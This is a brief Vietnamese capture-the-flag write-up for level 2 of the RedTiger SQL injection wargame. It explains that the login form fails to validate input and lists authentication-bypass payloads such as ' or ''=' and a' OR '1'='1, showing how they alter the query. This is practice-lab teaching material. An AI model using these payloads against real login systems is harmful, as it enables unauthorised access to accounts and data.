  	BÁO CÁO LEVEL 2

Cách khai thác:
	+Nhìn vào trong source của

[Level_2](http://redtiger.labs.overthewire.org/level2.php)

Ta thấy phần khai báo username và password:
![text](http://i.imgur.com/lgBLqBB.png)

- Lỗ hổng ở đây chính là do lập trình viên không thực hiện bưóc kiểm tra thông tin vào. Do đó bằng cách đăng nhập với username và password theo ý ta có thể vượt qua được và đăng nhập mà không cần biết username và password.

+Ta đăng nhập:
```sh
username: ' or ''='
password:  ' or ''=' 

or

username: a' OR '1'='1
password:  a' OR '1'='1
```
Thì đoạn source sẽ bị thay đổi như sau

```sh
name=''or''=''
pasword=''or''=''

or

name='a' OR '1'='1'
password='a' OR '1'='1'
```
Nhờ toán tử OR ta có thể đăng nhập vào đưọc
